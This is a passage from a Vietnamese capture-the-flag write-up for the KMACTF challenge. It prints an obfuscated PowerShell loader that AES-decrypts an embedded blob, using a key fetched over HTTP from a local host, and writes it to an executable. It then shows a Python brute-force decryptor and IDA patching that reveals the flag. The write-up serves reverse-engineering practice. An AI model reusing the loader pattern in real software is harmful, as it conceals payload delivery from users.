D/Bzei3CZNrIX/o7KgA0cCNshfkI5ls/2TkZtyHzj2adCTI9sHxs3cU+xfQ0IWvj8srfaIRH2d7bMTqsvafpJZ1NjUZV0c+R+fUiHY+18ika8Kp6VM0VlpTmGsvxQUyW8OIWPcEcCb9R/22L4JLu+/UC5YZVPAZ7keztvtNYb/mzc5cDh3wf+sAGUfEk9Gkk/U+bI1njURuW+LtgpzImWttZMx+897VlnNnx/4KqQrS0tANDhKXVS1pcVAT3cWTIYK9Iyy5e7G2oVQOHIsnLPNPqnr4jq7C4vPhoIsTLcX28Nepv/iuYc5ccxnzpjYY1QH0xp4NkVSvElttw58V969lI/af2jtz5dOCh9D3oWBWQqYTm6CyiF5riN7k3VF/kvfSbiY8MpIPrrf2hh5UcvEHeY1UU7ruD+Da+ZLLRXjHR3eHBjHeeuD0OiI8OUCWwglfNFldFE0l5N1M/PY2EqGt8QWl0f1RJ8SuaOOBdZf5QEKQVMwTmP3Wp1QiP7fOEEc8DeuskCb/0FhF6piAYT+7hBzLlLOfPvZiKObXMzJJUAFNbmx/8ulclQZLePzWsex4wiheDA7pAJwQcGolev9pfeAJz5c+b5Ai5vyWrBAdslSfNQUK2m8jUjmw3KpfdcSynUjf931OUapYQsvi21UlgOiGXTee5K68OwYYRhL+maGbg5uCU779h/fJyJ2NIH7vtVqDB4XppVjcm/D6EbXRQzYk5ZcUak0IQvn2QQJXuEP"
$cne2_get_bytes = ([System.Convert]::FromBase64String($cne))
$MemoryStream = New-Object "System.IO.MemoryStream"
$MemoryStream.Write($cne2_get_bytes, 0, $cne2_get_bytes.Length)
$MemoryStream.Seek(0,0) | Out-Null
$DeflateStream = New-Object System.IO.Compression.DeflateStream($MemoryStream, [System.IO.Compression.CompressionMode]::Decompress)
$StreamReader = New-Object System.IO.StreamReader($DeflateStream)
$enc = ''
while ($line = $StreamReader.Readline()){
    $enc += $line
}
$enc2 = [System.Convert]::FromBase64String($enc)
$AES = New-Object "System.Security.Cryptography.AesManaged"
$AES.Mode = [System.Security.Cryptography.CipherMode]::CBC
$AES.Padding = [System.Security.Cryptography.PaddingMode]::Zeros
$AES.BlockSize = 128

$xb = Invoke-WebRequest -Uri 'http://192.168.1.69/key'
$xxb = [Convert]::ToByte($xb.Content)
$AES.KeySize = 254 + $xxb.Count

$b = [byte[]] -split ("bce7b9e8b581b1a2ada7aaaba7afcdb3cbb4c8b9de80da85d586d28a9e919b92" -replace '..', '0x$& ')
$nB = @()
for ($i = 0; $i -lt $b.Count; $i++) {
        $nB += $b[$i] -bxor $xxb[$i % $xxb.Length];
} 
Write-Output $nB
$AES.IV = [byte[]] -split ("3f4528482b4d6251655368566d597133" -replace '..', '0x$& ')
$AES.Key = $nB
$Decryptor = $AES.CreateDecryptor()
$result = $Decryptor.TransformFinalBlock($enc2, 0, $enc2.Length)
$Decryptor.Dispose()
Set-Content Lolita.exe -Value $result -Encoding byte
$DeflateStream.Flush()
$DeflateStream.Close()
```
- Phân tích script 1 tí, ban đầu chúng khai báo 1 chuỗi base64_encode sau đó giải mã thông qua kiểu mã hoá AES có IV được khai báo sẵn và key được lấy từ local `192.168.1.69` và ghi vào file `Lolita.exe`
- Ban đầu mình nghĩ nó đã ghi sau đó xoá nên tìm ở commit history nhưng không có.
- Ban đầu mình nghĩ tới việc bruteforce key nhưng mình viết script để bruteforce hết wordlists rockyou.txt vẫn không có kết quả.
- Vì đầu ra là file exe có magic byte là MZ nên mình sẽ dùng chatgpt đễ hỗ trợ viết script bruteforce bằng byte 
```
import base64
import zlib
from Crypto.Cipher import AES
from itertools import product
def decrypt(key, b, base64_decode_2, iv):
    nB = bytes([b[i] ^ key[i % len(key)] for i in range(len(b))])
    if len(nB) != 32:  
        return None
    aes = AES.new(nB, AES.MODE_CBC, iv)
    result = aes.decrypt(base64_decode_2)
    if result[:2] == b'MZ':
        return result
    return None
enc = "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"
base64_decode = base64.b64decode(enc)

# Giải nén dữ liệu
decompressed_data = zlib.decompress(base64_decode, -zlib.MAX_WBITS)

# Giải mã base64 lần nữa
base64_decode_2 = base64.b64decode(decompressed_data)

# Thiết lập iv và b
iv = bytes.fromhex("3f4528482b4d6251655368566d597133")
b = bytes.fromhex("bce7b9e8b581b1a2ada7aaaba7afcdb3cbb4c8b9de80da85d586d28a9e919b92")


def brute_force(b, enc2, iv):
    # Thử các giá trị byte phổ biến trước
    common_bytes = [0x00, 0xFF, 0xAA, 0x55, 0x11, 0x22, 0x33, 0x44, 0x66, 0x77, 0x88, 0x99]
    for byte in common_bytes:
        key = bytes([byte] * len(b))
        result = decrypt(key, b, enc2, iv)
        if result:
            return key, result

    # Nếu không thành công, thử brute-force với các độ dài khóa dài hơn
    for key_length in range(1, 33):  # Thử các độ dài khóa từ 1 đến 32 byte
        for key in product(range(256), repeat=key_length):
            key = bytes(key)
            result = decrypt(key, b, enc2, iv)
            if result:
                return key, result

    return None, None

# Thử brute-force để tìm khóa
key, result = brute_force(b, base64_decode_2, iv)
if result:
    print("OK")
    with open("Lolita.exe", "wb") as f:
        f.write(result)
else:
    print("Brute force failed to find a valid key.")
``` 
- Ta được 1 file đầu ra là file exe
- Upload lên VirusTotal thì thấy nó là 1 file được code bằng asm  
- 
- Mình sử dụng IDA để xem src của file 
```
int __stdcall start(HWND a1, const CHAR *a2, const CHAR *a3, UINT a4)
{
  int v4; // ecx
  CHAR v5; // al
  int v6; // ecx
  CHAR Text[12]; // [esp+0h] [ebp-30h] BYREF
  CHAR v9[16]; // [esp+Ch] [ebp-24h] BYREF
  int v10; // [esp+1Ch] [ebp-14h]
  int v11; // [esp+20h] [ebp-10h]
  int v12; // [esp+24h] [ebp-Ch]
  char v13[8]; // [esp+28h] [ebp-8h] BYREF

  strcpy(v13, "GetRekt");
  v12 = 1126204;
  v11 = 875391086;
  v10 = 1634363727;
  v4 = 0;
  do
  {
    v5 = (v4 + 7) ^ Text[v4];
    Text[v4++] = v5;
  }
  while ( v5 );
  MessageBoxA(0, Text, v9, 0);
  v6 = 5;
  do
    --v6;
  while ( v6 );
  return MessageBoxA(a1, a2, a3, a4);
}
```
- Có vẻ nó chỉ là file exe có chức năng hiển thị qua msbox chữ `Hacked :3?`
- Mình sẽ đọc mã asm để đọc các chức năng bị ẩn
- 
- Đầu tiên thanh ghi edx được lưu giá trị 1 vào 
```
.text:0047100A mov     edx, 1
```
- Tiếp theo nó so sánh (cmp) với 1 thanh ghi có giá trị 1 lần nữa.
- Nếu đúng nó sẽ jump tới `loc_47104F`, còn nếu sai nó sẽ in ra các dữ liệu này 
```
.text:00471014 push    2E50621Fh
.text:00471019 push    5E476853h
.text:0047101E push    174D1113h
.text:00471023 push    497E6F54h
.text:00471028 push    7173432Bh
.text:0047102D push    71297648h
.text:00471032 push    267E247Dh
.text:00471037 push    267A2167h
.text:0047103C push    5D764A5Fh
.text:00471041 push    4948454Ch
``` 
- Tuy nhiên 1 = 1 thì luôn đúng nên `loc_47104F` luôn được jump đến, còn các chuỗi kia không được in.
- Ta sẽ sửa giá trị thanh ghi cho nó khác nhau để in ra các giá trị bị ẩn bằng cách đưa con trỏ chuột đến vị trí cần thay đổi `=> Edit => Patch program => Assemble và thay đổi
- Ở đây mình sẽ thay đổi bằng 2 vì `2 != 1`
- 
- Cuối cùng ta lưu về và lấy flag thôi 😎
```
Edit => Patch program => Apply patches to input file
```
- 

> Flag : KMACTF{Sh1k4n0k0_n0k0_noKO_k05h1t@nt4N}


